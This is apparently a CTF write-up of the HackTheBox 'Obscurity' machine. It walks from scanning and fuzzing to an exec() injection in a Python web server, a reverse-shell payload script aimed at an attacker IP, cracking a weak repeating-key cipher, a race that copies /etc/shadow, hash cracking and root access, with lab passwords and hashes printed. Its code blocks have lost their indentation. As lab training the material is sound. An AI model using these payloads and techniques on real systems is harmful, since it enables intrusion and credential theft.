


Obscurity HTB WriteUp

HTB Obscurity writeup⌗
HackTheBox Obscurity machine write up, easy Linux machine. The process as always: Scan –> Initial foothold –> Own User –> Own Root.
Initial Scan⌗
# added to hosts as 10.10.10.168 Obscurity
$ sudo nmap -sV -sC -sT -O -o nmapinitial obscurity
Scan results
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-07 02:44 CET
Nmap scan report for Obscurity (10.10.10.168)
Host is up (0.12s latency).
Not shown: 995 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp closed http
8080/tcp open http-proxy BadHTTPServer
9000/tcp closed unknown
15003/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.54 seconds
As we can see, we have an http server running at 8080 port. So we will start by accessing this site through the browser.

The website on port 8080 looks like a standard webpage. If we dig into the code of page, we will find an interesting message to “server devs”: the current source code for the web server is in ‘SuperSecureServer.py’ in the secret development directory.

So we will use the wfuzz tool to try to find that secret development directory. Concretely, we will use the common wordlist included in the tool’s GitHub repository.
wfuzz -c -z file,common.txt -u http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
We access to the python file containing the code of the server:
import socket
import threading
from datetime import datetime
import sys
import os
import mimetypes
import urllib.parse
import subprocess
respTemplate = """HTTP/1.1 {statusNum} {statusCode}
Date: {dateSent}
Server: {server}
Last-Modified: {modified}
Content-Length: {length}
Content-Type: {contentType}
Connection: {connectionType}
{body}
"""
DOC_ROOT = "DocRoot"
CODES = {"200": "OK",
"304": "NOT MODIFIED",
"400": "BAD REQUEST", "401": "UNAUTHORIZED", "403": "FORBIDDEN", "404": "NOT FOUND",
"500": "INTERNAL SERVER ERROR"}
MIMES = {"txt": "text/plain", "css":"text/css", "html":"text/html", "png": "image/png", "jpg":"image/jpg",
"ttf":"application/octet-stream","otf":"application/octet-stream", "woff":"font/woff", "woff2": "font/woff2",
"js":"application/javascript","gz":"application/zip", "py":"text/plain", "map": "application/octet-stream"}
class Response:
def __init__(self, **kwargs):
self.__dict__.update(kwargs)
now = datetime.now()
self.dateSent = self.modified = now.strftime("%a, %d %b %Y %H:%M:%S")
def stringResponse(self):
return respTemplate.format(**self.__dict__)
class Request:
def __init__(self, request):
self.good = True
try:
request = self.parseRequest(request)
self.method = request["method"]
self.doc = request["doc"]
self.vers = request["vers"]
self.header = request["header"]
self.body = request["body"]
except:
self.good = False
def parseRequest(self, request):
req = request.strip("\r").split("\n")
method,doc,vers = req[0].split(" ")
header = req[1:-3]
body = req[-1]
headerDict = {}
for param in header:
pos = param.find(": ")
key, val = param[:pos], param[pos+2:]
headerDict.update({key: val})
return {"method": method, "doc": doc, "vers": vers, "header": headerDict, "body": body}
class Server:
def __init__(self, host, port):
self.host = host
self.port = port
self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
self.sock.bind((self.host, self.port))
def listen(self):
self.sock.listen(5)
while True:
client, address = self.sock.accept()
client.settimeout(60)
threading.Thread(target = self.listenToClient,args = (client,address)).start()
def listenToClient(self, client, address):
size = 1024
while True:
try:
data = client.recv(size) # 收到客户端的数据，应该就是数据包
if data:
# Set the response to echo back the recieved data
req = Request(data.decode()) # byte转str，返回的req是list
self.handleRequest(req, client, address)
client.shutdown()
client.close()
else:
raise error('Client disconnected')
except:
client.close()
return False
def handleRequest(self, request, conn, address):
if request.good:
# try:
# print(str(request.method) + " " + str(request.doc), end=' ')
# print("from {0}".format(address[0]))
# except Exception as e:
# print(e)
document = self.serveDoc(request.doc, DOC_ROOT)
statusNum=document["status"]
else:
document = self.serveDoc("/errors/400.html", DOC_ROOT)
statusNum="400"
body = document["body"]
statusCode=CODES[statusNum]
dateSent = ""
server = "BadHTTPServer"
modified = ""
length = len(body)
contentType = document["mime"] # Try and identify MIME type from string
connectionType = "Closed"
resp = Response(
statusNum=statusNum, statusCode=statusCode,
dateSent = dateSent, server = server,
modified = modified, length = length,
contentType = contentType, connectionType = connectionType,
body = body
)
data = resp.stringResponse()
if not data:
return -1
conn.send(data.encode())
return 0
def serveDoc(self, path, docRoot):
path = urllib.parse.unquote(path)
try:
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
cwd = os.path.dirname(os.path.realpath(__file__))
docRoot = os.path.join(cwd, docRoot)
if path == "/":
path = "/index.html"
requested = os.path.join(docRoot, path[1:])
if os.path.isfile(requested):
mime = mimetypes.guess_type(requested)
mime = (mime if mime[0] != None else "text/html")
mime = MIMES[requested.split(".")[-1]]
try:
with open(requested, "r") as f:
data = f.read()
except:
with open(requested, "rb") as f:
data = f.read()
status = "200"
else:
errorPage = os.path.join(docRoot, "errors", "404.html")
mime = "text/html"
with open(errorPage, "r") as f:
data = f.read().format(path)
status = "404"
except Exception as e:
print(e)
errorPage = os.path.join(docRoot, "errors", "500.html")
mime = "text/html"
with open(errorPage, "r") as f:
data = f.read()
status = "500"
return {"body": data, "mime": mime, "status": status}
def serveDoc(self, path, docRoot):
path = urllib.parse.unquote(path)
try:
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
cwd = os.path.dirname(os.path.realpath(__file__))
docRoot = os.path.join(cwd, docRoot)
As we can see, an exec function is called, with an interesting comment in the same line (__This is how you do string formatting, right?__) that make us think that it could be exploitable by command injection. We craft an script to gain reverse shell through Python:
import requests
import urllib
import os
url = 'http://10.10.10.168:8080/'
path='5\''+'\nimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])\na=\''
payload = urllib.parse.quote(path)
print("payload")
print(url+payload)
r= requests.get(url+payload)
print(r.headers)
print(r.text)
Once we execute the script, we have a reverse shell as www-data. We can check the /home directory and access to user’s robert directory. There are five interesting files:
- check.txt
- out.txt
- passwordreminder.txt
- BetterSSH.py
- SuperSecureCrypt.py
If we check the content of the check.txt file we can see the next message:
$ cat check.txt
Encrypting this file with your key should result in out.txt, make sure your key is correct!
If we try to check the content of out.txt and passwordreminder.txt, we will find that they are encrypted by some method. By intuition, we can assume that these files have been ciphered using the SuperSecureCrypt.py script, so we will take a look over this Python file. The content is the following:
import sys
import argparse
def encrypt(text, key):
keylen = len(key)
keyPos = 0
encrypted = ""
for x in text:
keyChr = key[keyPos]
newChr = ord(x)
newChr = chr((newChr + ord(keyChr)) % 255)
encrypted += newChr
keyPos += 1
keyPos = keyPos % keylen
return encrypted
def decrypt(text, key):
keylen = len(key)
keyPos = 0
decrypted = ""
for x in text:
keyChr = key[keyPos]
newChr = ord(x)
newChr = chr((newChr - ord(keyChr)) % 255)
decrypted += newChr
keyPos += 1
keyPos = keyPos % keylen
return decrypted
parser = argparse.ArgumentParser(description='Encrypt with 0bscura\'s encryption algorithm')
parser.add_argument('-i',
metavar='InFile',
type=str,
help='The file to read',
required=False)
parser.add_argument('-o',
metavar='OutFile',
type=str,
help='Where to output the encrypted/decrypted file',
required=False)
parser.add_argument('-k',
metavar='Key',
type=str,
help='Key to use',
required=False)
parser.add_argument('-d', action='store_true', help='Decrypt mode')
args = parser.parse_args()
banner = "################################\n"
banner+= "# BEGINNING #\n"
banner+= "# SUPER SECURE ENCRYPTOR #\n"
banner+= "################################\n"
banner += " ############################\n"
banner += " # FILE MODE #\n"
banner += " ############################"
print(banner)
if args.o == None or args.k == None or args.i == None:
print("Missing args")
else:
if args.d:
print("Opening file {0}...".format(args.i))
with open(args.i, 'r', encoding='UTF-8') as f:
data = f.read()
print("Decrypting...")
decrypted = decrypt(data, args.k)
print("Writing to {0}...".format(args.o))
with open(args.o, 'w', encoding='UTF-8') as f:
f.write(decrypted)
else:
print("Opening file {0}...".format(args.i))
with open(args.i, 'r', encoding='UTF-8') as f:
data = f.read()
print("Encrypting...")
encrypted = encrypt(data, args.k)
print("Writing to {0}...".format(args.o))
with open(args.o, 'w', encoding='UTF-8') as f:
f.write(encrypted)
As we can see, it is a program that take four arguments: input file (-i), output file (-o), the key used to cipher/decipher the input file (-k) and the last (and optional) parameter to use the program in decipher mode (-d). Let’s take a look at the encryption function:
def encrypt(text, key):
keylen = len(key)
keyPos = 0
encrypted = ""
for x in text:
keyChr = key[keyPos]
newChr = ord(x)
newChr = chr((newChr + ord(keyChr)) % 255)
encrypted += newChr
keyPos += 1
keyPos = keyPos % keylen
return encrypted
import string
with open('check.txt','r',encoding='UTF-8') as f:
ta = f.read()
key=''
with open('out.txt','r',encoding='UTF-8') as f:
data = f.read()
for x in range(len(data)):
for i in range(255):
ch = chr((ord(data[x])-i)%255)
if ch == ta[x]:
key +=chr(i)
break
print(key)
Basically what we do is take the plain text included in check.txt and the encoded text (out.txt) and we traverse all ASCII chars (0-255), reverting the crypt operation, i.e, we obtain the resulting char from doing ord(cipheredData), we do the subtraction of the ASCII value and make the modulus operation with 255. If resulting char and the plain text char are the same, then the current ASCII value corresponds with a char from the key and we save it.
By this way we obtain the cipher key:
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichal
The next step is obtain the SSH password for user, which is probably included in the passwordreminder.txt file.
We will use the SuperSecureCrypt.py script in decryption mode, giving him the key that we just have obtained, and voila! We obtain the user password (SecThruObsFTW):
www-data@obscure:/home/robert$ python3 SuperSecureCrypt.py -i passwordreminder.txt -o pass.txt -k alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichal -d
################################
# BEGINNING #
# SUPER SECURE ENCRYPTOR #
################################
############################
# FILE MODE #
############################
Opening file passwordreminder.txt...
Decrypting...
Writing to pass.txt...
www-data@obscure:/home/robert$ cat pass.txt
SecThruObsFTW
e4493782066b55fe2755708736ada2d7
Let’s see now how to make the privilege escalation.
Root⌗
First at all we execute the sudo -l command to check our user permissions. We can see that he is capable to execute the script BetterSSH with root permissions.
robert@obscure:~$ sudo -l
Matching Defaults entries for robert on obscure:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User robert may run the following commands on obscure:
(ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
import sys
import random, string
import os
import time
import crypt
import traceback
import subprocess
path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
session = {"user": "", "authenticated": 0}
try:
session['user'] = input("Enter username: ")
passW = input("Enter password: ")
with open('/etc/shadow', 'r') as f:
data = f.readlines()
data = [(p.split(":") if "$" in p else None) for p in data]
passwords = []
for x in data:
if not x == None:
passwords.append(x)
passwordFile = '\n'.join(['\n'.join(p) for p in passwords])
with open('/tmp/SSH/'+path, 'w') as f:
f.write(passwordFile)
time.sleep(.1)
salt = ""
realPass = ""
for p in passwords:
if p[0] == session['user']:
salt, realPass = p[1].split('$')[2:]
break
if salt == "":
print("Invalid user")
os.remove('/tmp/SSH/'+path)
sys.exit(0)
salt = '$6$'+salt+'$'
realPass = salt + realPass
hash = crypt.crypt(passW, salt)
if hash == realPass:
print("Authed!")
session['authenticated'] = 1
else:
print("Incorrect pass")
os.remove('/tmp/SSH/'+path)
sys.exit(0)
os.remove(os.path.join('/tmp/SSH/',path))
except Exception as e:
traceback.print_exc()
sys.exit(0)
if session['authenticated'] == 1:
while True:
command = input(session['user'] + "@Obscure$ ")
cmd = ['sudo', '-u', session['user']]
cmd.extend(command.split(" "))
proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
o,e = proc.communicate()
print('Output: ' + o.decode('ascii'))
print('Error: ' + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
The interesting thing is that this script accesses the /etc/shadow file, and generates a file in /tmp/SSH with its content, so executing:
sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
import shutil
import os
while True:
files = os.listdir("/tmp/SSH")
for file in files:
shutil.copy(os.path.join("/tmp/SSH", file), "./hashes");
robert@obscure:~/hashes$ ls
Yebxice7
robert@obscure:~/hashes$ cat Yebxice7
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7
robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7
root@kali:~/Descargas/htb/obscure# john --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
Mercedes. (?)
1g 0:00:00:00 DONE (2020-03-13 12:27) 3.703g/s 1422p/s 1422c/s 1422c/s 1422C/s angelo..michael1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@kali:~/Descargas/htb/obscure# john --show shadow.txt
?:mercedes
1 password hash cracked, 0 left
root@kali:~/Descargas/htb/obscure#
If we try to access via SSH with root user and mercedes password, we can not get a session. Nevertheless, using the BetterSSH.py script from Robert’s session, we can authenticate using these credentials and obtain the root flag:
robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: root
Enter password: mercedes
Authed!
root@Obscure$ cat /root/root.txt
Output: 512fd4**************
So the machine is completed.